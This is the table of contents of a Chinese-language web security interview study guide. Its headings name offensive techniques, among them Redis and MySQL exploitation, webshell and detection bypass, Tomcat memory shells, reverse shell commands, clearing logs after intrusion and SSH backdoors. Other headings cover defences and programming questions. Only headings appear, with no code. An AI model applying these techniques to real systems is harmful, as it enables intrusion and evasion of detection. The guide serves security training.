

# web安全面试八股文

## 目录

- [✓如何绕过CDN找到真实IP，请列举五种方法 (★★★)](#如何绕过CDN找到真实IP请列举五种方法-)
- [✓redis未授权访问如何利用，利用的前提条件是? (★★★)](#redis未授权访问如何利用利用的前提条件是-)
  - [✅1. 利用前提条件](#1-利用前提条件)
  - [🛠2. 常见利用方式](#2-常见利用方式)
    - [① 写 SSH 公钥到目标用户的\~/.ssh/authorized\_keys](#-写-SSH-公钥到目标用户的sshauthorized_keys)
    - [② 写 WebShell](#-写-WebShell)
    - [③ 内网扫描 / 反弹 Shell](#-内网扫描--反弹-Shell)
    - [④ 提权 / 破坏](#-提权--破坏)
- [✓mysql提权方式有哪些?利用条件是什么? (★)](#mysql提权方式有哪些利用条件是什么-)
  - [✅ 1.INTO OUTFILE 写 WebShell](#-1INTO-OUTFILE-写-WebShell)
  - [✅ 2. UDF（自定义函数）提权](#-2-UDF自定义函数提权)
  - [✅ 3. 写入计划任务（Cron）](#-3-写入计划任务Cron)
  - [✅ 4. 日志注入 WebShell](#-4-日志注入-WebShell)
  - [✅ 5. 利用触发器执行命令（极少见）](#-5-利用触发器执行命令极少见)
- [✓windows+mysql，存在sql注入，但是机器无外网权限，可以利用吗? (★)](#windowsmysql存在sql注入但是机器无外网权限可以利用吗-)
  - [✅ 答案：可以利用！具体方式如下：](#-答案可以利用具体方式如下)
  - [✅ 1.利用 INTO OUTFILE 写 WebShell](#-1利用-INTO-OUTFILE-写-WebShell)
  - [✅ 2.UDF 提权（本地命令执行）](#-2UDF-提权本地命令执行)
  - [✅ 3.写计划任务执行本地命令](#-3写计划任务执行本地命令)
  - [✅ 4.写 bat 脚本，诱导执行](#-4写-bat-脚本诱导执行)
  - [✅ 5.横向移动或配合 SSRF / RCE](#-5横向移动或配合-SSRF--RCE)
  - [🔒 6.无法外连如何回传结果？](#-6无法外连如何回传结果)
- [✓常用的信息收集手段有哪些，除去路径扫描，子域名爆破等常见手段，有什么猥琐的方法收集企业信息? (★★)](#常用的信息收集手段有哪些除去路径扫描子域名爆破等常见手段有什么猥琐的方法收集企业信息-)
  - [① 被动收集（公开情报源，无请求行为）](#-被动收集公开情报源无请求行为)
  - [② 主动探测（发起 DNS 请求或字典爆破）](#-主动探测发起-DNS-请求或字典爆破)
  - [③ 旁站/相关域名扩展（公司/组织纬度）](#-旁站相关域名扩展公司组织纬度)
- [✓SRC挖掘与渗透测试的区别是什么，针对这两个不同的目标，实施过程中会有什么区别 (★★)](#SRC挖掘与渗透测试的区别是什么针对这两个不同的目标实施过程中会有什么区别-)
- [✓存储xss在纯内网的环境中，可以怎么利用？(★★)](#存储xss在纯内网的环境中可以怎么利用)
  - [1️⃣ 劫持 Cookie / Token](#1️⃣-劫持-Cookie--Token)
  - [2️⃣ 自动化操作（CSRF联动 / API劫持）](#2️⃣-自动化操作CSRF联动--API劫持)
  - [3️⃣ 打开内网页面探测系统（内网扫描器）](#3️⃣-打开内网页面探测系统内网扫描器)
  - [4️⃣ 恶意 iframe / keylogger](#4️⃣-恶意-iframe--keylogger)
  - [5️⃣ 内网无外联时：利用“打点回显”接口或写入日志文件](#5️⃣-内网无外联时利用打点回显接口或写入日志文件)
  - [6️⃣ 反弹 shell（结合 RCE 漏洞）](#6️⃣-反弹-shell结合-RCE-漏洞)
  - [✓mssql中，假设为sa权限，如何不通过xp\_cmdshell执行系统命令 (★★)](#mssql中假设为sa权限如何不通过xp_cmdshell执行系统命令-)
    - [✅ 标准答法结构（推荐背诵）：](#-标准答法结构推荐背诵)
    - [1️⃣启用 OLE 自动化（OLE Automation Procedures）](#1️⃣启用-OLE-自动化OLE-Automation-Procedures)
    - [2️⃣使用 SQL Server Agent 创建作业（Job）](#2️⃣使用-SQL-Server-Agent-创建作业Job)
    - [3️⃣注入 CLR（.NET）组件，注册并执行外部命令](#3️⃣注入-CLRNET组件注册并执行外部命令)
    - [4️⃣写 WebShell 或 BAT 文件，结合计划任务或远程访问利用](#4️⃣写-WebShell-或-BAT-文件结合计划任务或远程访问利用)
  - [✓假设某网站存在waf，不考虑正面绕过的前提下，应该如何绕过(分情况讨论 云waf/物理waf) (★)](#假设某网站存在waf不考虑正面绕过的前提下应该如何绕过分情况讨论-云waf物理waf-)
    - [① 云WAF 绕过方式](#-云WAF-绕过方式)
    - [✅ 1.1 获取真实 IP，绕过 WAF 访问源站：](#-11-获取真实-IP绕过-WAF-访问源站)
    - [✅ 1.2 利用配置漏洞：](#-12-利用配置漏洞)
    - [② 本地/物理 WAF 绕过方式](#-本地物理-WAF-绕过方式)
    - [✅ 2.1 利用非 Web 服务旁路（内网访问）](#-21-利用非-Web-服务旁路内网访问)
    - [✅ 2.2 应用层绕过 via CDN / proxy 后门](#-22-应用层绕过-via-CDN--proxy-后门)
    - [ ③ 通用旁路策略（云和物理均适用）](#--通用旁路策略云和物理均适用)
    - [🔹 利用业务逻辑绕过](#-利用业务逻辑绕过)
    - [🔹 利用上传 / 中转接口](#-利用上传--中转接口)
    - [🔹 利用二级/测试子域旁路](#-利用二级测试子域旁路)
  - [✓介绍一下自认为有趣的挖洞经历（或CTF经历）(★★★)](#介绍一下自认为有趣的挖洞经历或CTF经历)
  - [✓CSRF的成因及防御措施（不用token如何解决) (★)](#CSRF的成因及防御措施不用token如何解决-)
    - [✅ 一、CSRF 的成因（跨站请求伪造）](#-一CSRF-的成因跨站请求伪造)
    - [🔁 举个例子：](#-举个例子)
    - [✅ 二、CSRF 防御措施（不用 token 的情况）](#-二CSRF-防御措施不用-token-的情况)
    - [✅ 1.Referer / Origin 验证](#-1Referer--Origin-验证)
    - [✅ 2.SameSite Cookie 属性](#-2SameSite-Cookie-属性)
    - [✅ 3.使用验证码 / 二次确认](#-3使用验证码--二次确认)
    - [✅ 4.请求方式限制](#-4请求方式限制)
    - [✅ 5.AJAX + 自定义 Header 校验](#-5AJAX--自定义-Header-校验)
    - [✅ 面试答题模板（推荐）：](#-面试答题模板推荐)
    - [✅ 加分技巧：](#-加分技巧)
  - [✓SSRF如何探测非HTTP协议(★)](#SSRF如何探测非HTTP协议)
    - [✅ SSRF 背景回顾](#-SSRF-背景回顾)
    - [✅ 探测非 HTTP 协议的常用思路](#-探测非-HTTP-协议的常用思路)
    - [1️⃣尝试访问不同协议的特殊 URL](#1️⃣尝试访问不同协议的特殊-URL)
    - [2️⃣结合模糊和监控技术](#2️⃣结合模糊和监控技术)
    - [3️⃣利用 Gopher 协议模拟任意 TCP 协议](#3️⃣利用-Gopher-协议模拟任意-TCP-协议)
    - [4️⃣结合已知端口的协议猜测](#4️⃣结合已知端口的协议猜测)
    - [5️⃣检查 SSRF 参数对协议支持限制](#5️⃣检查-SSRF-参数对协议支持限制)
    - [✅ 面试答题模板](#-面试答题模板)
  - [✓简述一下SSRF的绕过手法(★★)](#简述一下SSRF的绕过手法)
    - [1.协议混淆绕过](#1协议混淆绕过)
    - [2.IP 地址绕过](#2IP-地址绕过)
    - [3.DNS 解析绕过](#3DNS-解析绕过)
    - [4.编码绕过](#4编码绕过)
    - [5.请求方法或头部绕过](#5请求方法或头部绕过)
    - [6.使用中间服务绕过](#6使用中间服务绕过)
    - [面试答题模板](#面试答题模板)
  - [✓简述一下SSRF中DNSRebind的绕过原理及修复方法(★)](#简述一下SSRF中DNSRebind的绕过原理及修复方法)
    - [1️⃣ DNS Rebind 绕过原理](#1️⃣-DNS-Rebind-绕过原理)
    - [2️⃣ 修复方法](#2️⃣-修复方法)
      - [🔹 2.1 严格 IP 地址校验](#-21-严格-IP-地址校验)
      - [🔹 2.2 缓存 DNS 解析结果，避免频繁解析](#-22-缓存-DNS-解析结果避免频繁解析)
      - [🔹 2.3 禁止解析返回内网 IP 的域名访问](#-23-禁止解析返回内网-IP-的域名访问)
      - [🔹 2.4 使用白名单代替黑名单](#-24-使用白名单代替黑名单)
      - [🔹 2.5 更新依赖库和框架](#-25-更新依赖库和框架)
      - [🔹 2.6 结合网络层防护](#-26-结合网络层防护)
    - [✅ 面试答题模板](#-面试答题模板)
  - [✓介绍 SQL 注入漏洞成因，如何防范？注入方式有哪些？除了拖取数据库数据，利用方式还有哪些？(★★)](#介绍-SQL-注入漏洞成因如何防范注入方式有哪些除了拖取数据库数据利用方式还有哪些)
    - [1️⃣ SQL 注入漏洞成因](#1️⃣-SQL-注入漏洞成因)
    - [2️⃣ 如何防范 SQL 注入](#2️⃣-如何防范-SQL-注入)
    - [3️⃣ 注入方式有哪些](#3️⃣-注入方式有哪些)
    - [4️⃣ 除了拖取数据库数据，利用方式还有哪些？](#4️⃣-除了拖取数据库数据利用方式还有哪些)
    - [✅ 面试答题模板](#-面试答题模板)
  - [✓如何通过sql注入写shell,写shell的前提条件是什么?(★★)](#如何通过sql注入写shell写shell的前提条件是什么)
    - [1️⃣ 写 Shell 的原理](#1️⃣-写-Shell-的原理)
    - [2️⃣ 写 Shell 的常见方法](#2️⃣-写-Shell-的常见方法)
    - [3️⃣ 写 Shell 的前提条件](#3️⃣-写-Shell-的前提条件)
    - [4️⃣ 注意事项](#4️⃣-注意事项)
  - [✓介绍一下XSS漏洞的种类，dom型XSS和反射XSS的区别是什么?(★★)](#介绍一下XSS漏洞的种类dom型XSS和反射XSS的区别是什么)
    - [1️⃣ XSS 漏洞主要种类](#1️⃣-XSS-漏洞主要种类)
    - [2️⃣ DOM 型 XSS 和反射型 XSS 的区别](#2️⃣-DOM-型-XSS-和反射型-XSS-的区别)
    - [✅ 面试答题模板](#-面试答题模板)
  - [✓如何防范 XSS 漏洞，在前端如何做，在后端如何做，哪里更好，为什么？(★★)](#如何防范-XSS-漏洞在前端如何做在后端如何做哪里更好为什么)
    - [1️⃣ 后端防范措施](#1️⃣-后端防范措施)
    - [2️⃣ 前端防范措施](#2️⃣-前端防范措施)
    - [3️⃣ 哪个更好，为什么？](#3️⃣-哪个更好为什么)
    - [✅ 面试答题模板](#-面试答题模板)
  - [✓讲述一下找回密码可能涉及的逻辑漏洞(★)](#讲述一下找回密码可能涉及的逻辑漏洞)
    - [常见找回密码逻辑漏洞](#常见找回密码逻辑漏洞)
    - [额外补充](#额外补充)
  - [✓假设你是甲方的一名安全工程师，应该如何降低逻辑漏洞的出现率?(★★)](#假设你是甲方的一名安全工程师应该如何降低逻辑漏洞的出现率)
    - [1️⃣ 制度与流程层面](#1️⃣-制度与流程层面)
    - [2️⃣ 技术与工具层面](#2️⃣-技术与工具层面)
    - [3️⃣ 持续改进](#3️⃣-持续改进)
    - [✅ 面试答题模板](#-面试答题模板)
  - [✓oauth认证过程中可能会出现什么问题，导致什么样的漏洞?(★)](#oauth认证过程中可能会出现什么问题导致什么样的漏洞)
    - [1️⃣ 常见问题及导致的漏洞](#1️⃣-常见问题及导致的漏洞)
    - [2️⃣ 具体漏洞举例](#2️⃣-具体漏洞举例)
    - [✅ 面试答题模板](#-面试答题模板)
  - [✓CSP是什么应该如何使用及配置，有哪些绕过CSP的方式(★★)](#CSP是什么应该如何使用及配置有哪些绕过CSP的方式)
    - [1️⃣ CSP（Content Security Policy）是什么？](#1️⃣-CSPContent-Security-Policy是什么)
    - [2️⃣ 如何使用及配置 CSP？](#2️⃣-如何使用及配置-CSP)
    - [3️⃣ 常见的 CSP 绕过方式](#3️⃣-常见的-CSP-绕过方式)
    - [✅ 面试答题模板](#-面试答题模板)
  - [✓已知某网站存在LFI(本地文件包含)，但是无法上传任何文件，针对该情况有哪些利用方式?(★★)](#已知某网站存在LFI本地文件包含但是无法上传任何文件针对该情况有哪些利用方式)
    - [1️⃣ 利用已有文件写入（日志文件写入）](#1️⃣-利用已有文件写入日志文件写入)
    - [2️⃣ 利用 PHP 会话文件（Session 文件）](#2️⃣-利用-PHP-会话文件Session-文件)
    - [3️⃣ 利用配置文件或备份文件](#3️⃣-利用配置文件或备份文件)
    - [4️⃣ 利用 PHP 输入流](#4️⃣-利用-PHP-输入流)
    - [5️⃣ 利用其他特殊文件](#5️⃣-利用其他特殊文件)
    - [✅ 面试答题模板](#-面试答题模板)
  - [✓简述一下XXE漏洞产生的原理，针对PHP和JAVA，XXE分别可以进行哪些恶意利用?(★★)](#简述一下XXE漏洞产生的原理针对PHP和JAVAXXE分别可以进行哪些恶意利用)
    - [1️⃣ XXE漏洞产生原理](#1️⃣-XXE漏洞产生原理)
    - [2️⃣ PHP环境下XXE的恶意利用](#2️⃣-PHP环境下XXE的恶意利用)
    - [3️⃣ Java环境下XXE的恶意利用](#3️⃣-Java环境下XXE的恶意利用)
    - [✅ 面试答题模板](#-面试答题模板)
  - [✓PHP中如何使用phar://伪协议触发反序列化，利用场景以及前提条件有哪些?(★★)](#PHP中如何使用phar伪协议触发反序列化利用场景以及前提条件有哪些)
    - [phar://伪协议反序列化原理](#phar伪协议反序列化原理)
    - [2️⃣ 利用方式](#2️⃣-利用方式)
    - [3️⃣ 利用场景](#3️⃣-利用场景)
    - [4️⃣ 前提条件](#4️⃣-前提条件)
    - [✅ 面试答题模板](#-面试答题模板)
  - [✓如何绕过php.ini中disable\_function的限制，有哪些方法，其中成功率最高的方法是哪个，为什么?(★★★)](#如何绕过phpini中disable_function的限制有哪些方法其中成功率最高的方法是哪个为什么)
    - [常规绕过（黑名单绕过）](#常规绕过黑名单绕过)
    - [利用 pcntl\_exec](#利用-pcntl_exec)
    - [利用 LD\_PRELOAD 环境变量](#利用-LD_PRELOAD-环境变量)
    - [利用 ImageMagick](#利用-ImageMagick)
    - [利用 FFI 扩展执行命令](#利用-FFI-扩展执行命令)
    - [利用 SplDoublyLinkedList UAC](#利用-SplDoublyLinkedList-UAC)
    - [Json Serializer UAF](#Json-Serializer-UAF)
    - [利用 Backtrace UAF](#利用-Backtrace-UAF)
    - [利用 GC UAF](#利用-GC-UAF)
    - [攻击 PHP-FPM](#攻击-PHP-FPM)
    - [利用 Apache Mod CGI](#利用-Apache-Mod-CGI)
    - [ShellShock（CVE-2014-6271）](#ShellShockCVE-2014-6271)
  - [✓文件上传中%00截断的原理是什么，官方是如何设计修复方案的?(★★)](#文件上传中00截断的原理是什么官方是如何设计修复方案的)
    - [1️⃣%00 截断原理是什么？](#1️⃣00-截断原理是什么)
      - [🧩 问题根源：](#-问题根源)
      - [✅ 举例说明：](#-举例说明)
    - [2️⃣ 利用该原理的危害](#2️⃣-利用该原理的危害)
    - [3️⃣ 官方修复方案](#3️⃣-官方修复方案)
      - [修复方式：](#修复方式)
      - [示例：](#示例)
    - [✅ 面试答题模板（推荐背诵）](#-面试答题模板推荐背诵)
  - [✓实现一个一句话webshell，绕过RASP的方式有哪些，绕过机器学习检测的方式有哪些，绕过AST-Tree的方式有哪些(★★)](#实现一个一句话webshell绕过RASP的方式有哪些绕过机器学习检测的方式有哪些绕过AST-Tree的方式有哪些)
    - [🐘 一、PHP 一句话 WebShell及其绕过方式](#-一PHP-一句话-WebShell及其绕过方式)
    - [✅ 经典一句话（明文）](#-经典一句话明文)
    - [🔐 绕过方式](#-绕过方式)
    - [✅ 综合示例（PHP绕过三种检测）：](#-综合示例PHP绕过三种检测)
    - [☕ 二、Java 一句话 WebShell及其绕过方式](#-二Java-一句话-WebShell及其绕过方式)
    - [✅ 经典一句话（明文）](#-经典一句话明文)
      - [用于 JSP 环境下的命令执行，或配合反弹 shell 使用。](#用于-JSP-环境下的命令执行或配合反弹-shell-使用)
    - [🔐 绕过方式](#-绕过方式)
    - [✅ 示例1：使用反射 + 字符串拼接](#-示例1使用反射--字符串拼接)
    - [✅ 示例2：ProcessBuilder 替代 Runtime](#-示例2ProcessBuilder-替代-Runtime)
    - [📦 总结对比答题模板（面试通用）](#-总结对比答题模板面试通用)
  - [✓PHP伪协议的攻击场景有哪些？(★★)](#PHP伪协议的攻击场景有哪些)
    - [📌 一、什么是 PHP 伪协议？](#-一什么是-PHP-伪协议)
    - [🧨 常见攻击场景与伪协议列表](#-常见攻击场景与伪协议列表)
    - [🎯 各伪协议攻击场景详解](#-各伪协议攻击场景详解)
    - [1️⃣php://input - 代码注入 & WAF 绕过](#1️⃣phpinput---代码注入--WAF-绕过)
    - [2️⃣php://filter - 源码泄露](#2️⃣phpfilter---源码泄露)
    - [3️⃣data:// - 内联注入 Payload](#3️⃣data---内联注入-Payload)
    - [4️⃣phar:// - 反序列化触发点](#4️⃣phar---反序列化触发点)
    - [5️⃣file:// - 文件读取](#5️⃣file---文件读取)
    - [6️⃣zip:// - ZIP 压缩包中的文件穿透](#6️⃣zip---ZIP-压缩包中的文件穿透)
    - [🔐 面试答题模板总结](#-面试答题模板总结)
  - [✓mail函数的攻击面有哪些?(★)](#mail函数的攻击面有哪些)
    - [✅ 一、mail() 函数简介](#-一mail-函数简介)
    - [🎯 二、常见攻击面总结](#-二常见攻击面总结)
    - [🚨 三、攻击案例详解](#-三攻击案例详解)
    - [1️⃣ 邮件头注入（Header Injection）](#1️⃣-邮件头注入Header-Injection)
    - [2️⃣ 命令注入（通过第五个参数）](#2️⃣-命令注入通过第五个参数)
    - [3️⃣ 滥发邮件（垃圾邮件批量发送）](#3️⃣-滥发邮件垃圾邮件批量发送)
    - [4️⃣ CRLF 注入（邮件格式中断）](#4️⃣-CRLF-注入邮件格式中断)
    - [🛡️ 四、安全防护建议](#️-四安全防护建议)
    - [✅ 面试总结模板](#-面试总结模板)
  - [✓如何不通过数字以及字符构造webshell，其原理是什么，此类特性还会造成什么安全问题?(★)](#如何不通过数字以及字符构造webshell其原理是什么此类特性还会造成什么安全问题)
  - [✓ClassLoader是什么? 加载自定义ClassLoader的前提是什么? ](#ClassLoader是什么-加载自定义ClassLoader的前提是什么-)
  - [✓大概讲一下CommonCollections1的利用链，该利用链有什么样的限制? (★★)](#大概讲一下CommonCollections1的利用链该利用链有什么样的限制-)
    - [✅ 一、CommonsCollections1 利用链简介](#-一CommonsCollections1-利用链简介)
    - [📌 利用目的：](#-利用目的)
    - [📌 依赖库：](#-依赖库)
    - [✅ 二、CommonsCollections1 调用链核心结构](#-二CommonsCollections1-调用链核心结构)
    - [✅ 三、执行逻辑简述：](#-三执行逻辑简述)
    - [✅ 四、限制条件](#-四限制条件)
    - [✅ 五、面试回答模板（精简版）](#-五面试回答模板精简版)
  - [✓fastjson的反序列化和原生反序列化漏洞的区别是什么? (★★)](#fastjson的反序列化和原生反序列化漏洞的区别是什么-)
  - [✓在tomcat中实现内存马有哪些方式，有办法实现重启之后依然不会消失的内存马吗? (★)](#在tomcat中实现内存马有哪些方式有办法实现重启之后依然不会消失的内存马吗-)
    - [✅ 一、什么是内存马？](#-一什么是内存马)
    - [🧠 二、在 Tomcat 中实现内存马的常见方式](#-二在-Tomcat-中实现内存马的常见方式)
    - [1️⃣Servlet 注入（Classic）](#1️⃣Servlet-注入Classic)
    - [2️⃣Filter 注入（最常见）](#2️⃣Filter-注入最常见)
    - [3️⃣Listener 注入](#3️⃣Listener-注入)
    - [4️⃣Valve 内存马（高权限+稳定性强）](#4️⃣Valve-内存马高权限稳定性强)
    - [5️⃣MBean 注入内存马](#5️⃣MBean-注入内存马)
    - [6️⃣Agent Attach（需高权限）](#6️⃣Agent-Attach需高权限)
    - [❓ 三、有没有办法实现重启后仍不消失的“内存马”？](#-三有没有办法实现重启后仍不消失的内存马)
    - [✅ 方法 1：写入Tomcat 配置文件或 web.xml（伪内存马）](#-方法-1写入Tomcat-配置文件或-webxml伪内存马)
    - [✅ 方法 2：Class 文件落地 + Loader 注入](#-方法-2Class-文件落地--Loader-注入)
    - [✅ 方法 3：Agent 级注入 + Premain](#-方法-3Agent-级注入--Premain)
    - [✅ 方法 4：篡改 Tomcat 原始类（危险）](#-方法-4篡改-Tomcat-原始类危险)
    - [🔐 安全建议](#-安全建议)
    - [✅ 面试回答模板（推荐背诵）：](#-面试回答模板推荐背诵)
  - [✓单向代码执行链如何实现执行多条语句，如CommonCollections1 (★)](#单向代码执行链如何实现执行多条语句如CommonCollections1)
    - [✅ 一、什么是“单向代码执行链”？](#-一什么是单向代码执行链)
    - [✅ 二、为什么不能写多个命令？](#-二为什么不能写多个命令)
    - [✅ 三、实现多条命令的解决方案](#-三实现多条命令的解决方案)
    - [✅ 方式一：调用 shell 执行多条命令（推荐）](#-方式一调用-shell-执行多条命令推荐)
    - [✅ 方式二：提前写个脚本，一次执行](#-方式二提前写个脚本一次执行)
    - [✅ 方式三：用ProcessBuilder](#-方式三用ProcessBuilder)
    - [✅ 四、面试回答模板](#-四面试回答模板)
  - [✓请简单讲述一下Shiro反序列化漏洞的原理，无法使用ysoerial中common-collections利用链的原因是什么? (★)](#请简单讲述一下Shiro反序列化漏洞的原理无法使用ysoerial中common-collections利用链的原因是什么-)
  - [✓冰蝎当中通过Java联动Cobalt Strike上线的原理是什么? (★)](#冰蝎当中通过Java联动Cobalt-Strike上线的原理是什么-)
  - [✓serialVersionUID 在反序列化中的作用是什么? (★)](#serialVersionUID在反序列化中的作用是什么-)
    - [✅ serialVersionUID 在反序列化中的作用（★）](#-serialVersionUID-在反序列化中的作用)
    - [1. 什么是serialVersionUID？](#1-什么是serialVersionUID)
    - [2. 反序列化时的作用](#2-反序列化时的作用)
    - [3. 版本校验保证序列化兼容性](#3-版本校验保证序列化兼容性)
    - [4. 没显式定义时的默认行为](#4-没显式定义时的默认行为)
    - [✅ 面试回答示范](#-面试回答示范)
  - [✓简要介绍自己常用的扫描器和其实现上的特点(★★)](#简要介绍自己常用的扫描器和其实现上的特点)
  - [✓如果让你设计一个HIDS，应该如何设计(★)](#如果让你设计一个HIDS应该如何设计)
    - [✅ 面试答题框架（简洁实用型）](#-面试答题框架简洁实用型)
    - [一、总体架构思路：](#一总体架构思路)
      - [1.数据采集模块](#1数据采集模块)
      - [2.日志分析与检测引擎](#2日志分析与检测引擎)
      - [3.响应处置模块](#3响应处置模块)
      - [4.通信与管理模块](#4通信与管理模块)
      - [5.配置与策略模块](#5配置与策略模块)
    - [二、跨平台支持](#二跨平台支持)
    - [三、安全性设计](#三安全性设计)
    - [四、常见检测规则示例](#四常见检测规则示例)
    - [✅ 五、总结句式（答题收尾）：](#-五总结句式答题收尾)
  - [✓介绍一下Python中的迭代器、生成器、装饰器(★)](#介绍一下Python中的迭代器生成器装饰器)
    - [1. 迭代器（Iterator）](#1-迭代器Iterator)
    - [2. 生成器（Generator）](#2-生成器Generator)
    - [3. 装饰器（Decorator）](#3-装饰器Decorator)
    - [简要总结](#简要总结)
  - [✓介绍自己常用的python库(★)](#介绍自己常用的python库)
  - [✓讲一讲celery的特点以及原理(★)](#讲一讲celery的特点以及原理)
    - [✅ Celery 的特点](#-Celery-的特点)
    - [✅ Celery 的工作原理](#-Celery-的工作原理)
    - [✅ 简要流程图](#-简要流程图)
    - [✅ 适用场景](#-适用场景)
    - [✅ 面试回答模板](#-面试回答模板)
  - [✓简述Python中的GIL锁，以及如何打破GIL锁的限制(★★)](#简述Python中的GIL锁以及如何打破GIL锁的限制)
    - [一、什么是 GIL（Global Interpreter Lock）？](#一什么是-GILGlobal-Interpreter-Lock)
    - [二、GIL 的影响](#二GIL-的影响)
    - [三、如何打破 GIL 限制？](#三如何打破-GIL-限制)
    - [1. 多进程（multiprocessing 模块）](#1-多进程multiprocessing-模块)
    - [2. C 扩展释放 GIL](#2-C-扩展释放-GIL)
    - [3. 使用不受 GIL 影响的实现](#3-使用不受-GIL-影响的实现)
    - [4. 使用异步编程](#4-使用异步编程)
    - [5. 结合原生线程库](#5-结合原生线程库)
  - [✓masscan号称世界上最快的扫描器，快的原因是什么，如何实现一个自己的masscan?(★★)](#masscan号称世界上最快的扫描器快的原因是什么如何实现一个自己的masscan)
    - [一、masscan 快速扫描的原因](#一masscan-快速扫描的原因)
    - [二、如何实现自己的 masscan？](#二如何实现自己的-masscan)
    - [1. 使用 Raw Socket 或 libpcap 构造原始数据包](#1-使用-Raw-Socket-或-libpcap-构造原始数据包)
    - [2. 异步/非阻塞 IO 模型](#2-异步非阻塞-IO-模型)
    - [3. 高效并发设计](#3-高效并发设计)
    - [4. 优化扫描算法](#4-优化扫描算法)
    - [5. 精简扫描逻辑](#5-精简扫描逻辑)
    - [三、实现步骤示例](#三实现步骤示例)
    - [四、面试简述模板](#四面试简述模板)
  - [✓简述协程，线程，以及进程的区别(★★)](#简述协程线程以及进程的区别)
    - [1. 进程（Process）](#1-进程Process)
    - [2. 线程（Thread）](#2-线程Thread)
    - [3. 协程（Coroutine）](#3-协程Coroutine)
    - [总结对比表](#总结对比表)
    - [面试简述示范](#面试简述示范)
  - [✓什么情况下会导致 goruntine 泄露， 应该如何排查? (★)](#什么情况下会导致-goruntine-泄露-应该如何排查-)
    - [✅ 一、常见 Goroutine 泄露的情况](#-一常见-Goroutine-泄露的情况)
    - [✅ 二、如何排查 Goroutine 泄露](#-二如何排查-Goroutine-泄露)
    - [✅ 三、如何防止 goroutine 泄露（最佳实践）](#-三如何防止-goroutine-泄露最佳实践)
    - [✅ 总结口诀](#-总结口诀)
  - [✓SQL注入中时间盲注的POC应该如何编写? (★)](#SQL注入中时间盲注的POC应该如何编写-)
  - [✓简述一下守护进程的概念，如何生成一个守护进程? (★)](#简述一下守护进程的概念如何生成一个守护进程-)
    - [一、守护进程的概念](#一守护进程的概念)
    - [二、生成守护进程的常见步骤](#二生成守护进程的常见步骤)
    - [三、示例（Linux C 伪代码）](#三示例Linux-C-伪代码)
    - [四、总结（面试简述示范）](#四总结面试简述示范)
  - [✓Linux 服务器的安全运维操作有哪些？如何保护 SSH？(★★)](#Linux-服务器的安全运维操作有哪些如何保护-SSH)
    - [一、Linux 服务器的常见安全运维操作](#一Linux-服务器的常见安全运维操作)
    - [✅ 1. 系统加固](#-1-系统加固)
    - [✅ 2. 身份认证与账号安全](#-2-身份认证与账号安全)
    - [✅ 3. 日志与审计](#-3-日志与审计)
    - [✅ 4. 防火墙和入侵防御](#-4-防火墙和入侵防御)
    - [✅ 5. 文件和目录安全](#-5-文件和目录安全)
    - [二、如何保护 SSH 登录安全](#二如何保护-SSH-登录安全)
    - [三、面试回答模板](#三面试回答模板)
  - [✓入侵 Linux 服务器后需要清除哪些日志？(★★)](#入侵-Linux-服务器后需要清除哪些日志)
    - [✅ 一、为什么要清除日志？](#-一为什么要清除日志)
    - [✅ 二、常见日志清除目标](#-二常见日志清除目标)
    - [✅ 三、如何清除（理论上）](#-三如何清除理论上)
    - [✅ 四、注意事项（面试思路延伸）](#-四注意事项面试思路延伸)
    - [✅ 五、面试总结回答模板](#-五面试总结回答模板)
  - [✓反弹 shell 的常用命令？一般常反弹哪一种 shell？为什么？(★★★)](#反弹-shell-的常用命令一般常反弹哪一种-shell为什么)
    - [✅ 一、什么是反弹 shell？](#-一什么是反弹-shell)
    - [✅ 二、常用反弹 Shell 命令总结](#-二常用反弹-Shell-命令总结)
      - [🟧 1. Bash（推荐，最常用）](#-1-Bash推荐最常用)
      - [🟧 2. Netcat](#-2-Netcat)
      - [原始 nc（可能不支持-e）：](#原始-nc可能不支持-e)
      - [有些系统默认不支持-e，可改用：](#有些系统默认不支持-e可改用)
      - [🟧 3. Python](#-3-Python)
      - [Python3:](#Python3)
    - [🟧 4. Perl](#-4-Perl)
    - [🟧 5. PHP](#-5-PHP)
    - [🟧 6. Socat](#-6-Socat)
    - [✅ 三、常反弹哪一种 shell？为什么？](#-三常反弹哪一种-shell为什么)
    - [原因如下：](#原因如下)
    - [✅ 四、面试回答总结模板：](#-四面试回答总结模板)
  - [✓从主机的层面，反弹shell如何监控 (★★★)](#从主机的层面反弹shell如何监控-)
    - [一、反弹shell监控的核心目标](#一反弹shell监控的核心目标)
    - [二、主机层面反弹shell监控手段](#二主机层面反弹shell监控手段)
    - [三、重点监控场景与示例](#三重点监控场景与示例)
    - [四、实战推荐工具和技术](#四实战推荐工具和技术)
    - [五、总结面试回答模板](#五总结面试回答模板)
  - [✓Rootkit的种类有哪些，针对不同种类的Rootkit应该如何防护以及检测 (★★)](#Rootkit的种类有哪些针对不同种类的Rootkit应该如何防护以及检测-)
    - [一、Rootkit 的种类](#一Rootkit-的种类)
    - [二、防护与检测措施](#二防护与检测措施)
    - [三、总结面试回答模板](#三总结面试回答模板)
  - [✓A账户创建了权限为766的文件夹adir，该文件夹中有B账户的文件password.txt，权限为B账户的700，请问B账户能否读取到adir/password.txt文件的内容 (★)](#A账户创建了权限为766的文件夹adir该文件夹中有B账户的文件passwordtxt权限为B账户的700请问B账户能否读取到adirpasswordtxt文件的内容-)
    - [分析步骤](#分析步骤)
    - [1. 目录权限766含义：](#1-目录权限766含义)
    - [2. B账户是否属于该目录的用户或组？](#2-B账户是否属于该目录的用户或组)
    - [3. 权限总结：](#3-权限总结)
    - [4. 文件password.txt权限700：](#4-文件passwordtxt权限700)
    - [5. 是否能读取文件？](#5-是否能读取文件)
    - [结论：](#结论)
    - [补充说明：](#补充说明)
  - [✓ssh软链接后门的原理是什么，可以通过该原理构造其他后门吗?(★)](#ssh软链接后门的原理是什么可以通过该原理构造其他后门吗)
  - [✓Linux中fork的原理是什么，子进程一定会拷贝父进程的资源状态吗？(★★)](#Linux中fork的原理是什么子进程一定会拷贝父进程的资源状态吗)
    - [✅ fork 的原理是什么？](#-fork-的原理是什么)
    - [🔧 1. 基本原理：](#-1-基本原理)
    - [✅ 子进程一定会拷贝父进程的资源状态吗？](#-子进程一定会拷贝父进程的资源状态吗)
    - [❌ 不完全拷贝！Linux 为此引入了优化机制：写时复制 (Copy-On-Write, COW)](#-不完全拷贝Linux-为此引入了优化机制写时复制-Copy-On-Write-COW)
    - [🔍 COW 的机制：](#-COW-的机制)
    - [📌 示例：](#-示例)
